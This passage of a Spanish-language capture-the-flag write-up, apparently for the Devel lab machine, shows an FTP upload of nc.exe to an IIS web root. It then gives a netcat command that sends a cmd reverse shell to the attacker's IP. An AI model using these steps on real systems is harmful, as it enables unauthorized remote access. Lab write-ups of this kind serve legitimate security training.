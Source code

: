 ```ruby
ftp> bynari
?Invalid command
ftp> binary
200 Type set to I.
ftp> put nc.exe
local: nc.exe remote: nc.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
28160 bytes sent in 0.00 secs (526.5778 MB/s)
```
- Para buscar el binario de nc por lo general se guarda en inetpub recordemos que es una carpeta específica utilizada por Microsoft Internet Information Services (IIS) para almacenar los archivos y recursos asociados con los sitios web y aplicaciones web alojados en el servidor. El nombre "inetpub" es una abreviatura de "Internet Publishing" (Publicación en Internet) y es el nombre predeterminado de la carpeta en la cual IIS aloja los contenidos web.

`dir C:\inetpub\wwwroot\`
![](../assets/images/Devel/inetpub.png)

- Ahora como ya se donde se aloja, lo ejecuto enviándome una consola interactiva  a mi maquina de atacante.

`C:\inetpub\wwwroot\nc.exe -e cmd 10.10.14.168 443` y me pongo en escucha por el puerto 443 voy a recibir la consola y tenemos acceso a la máquina.
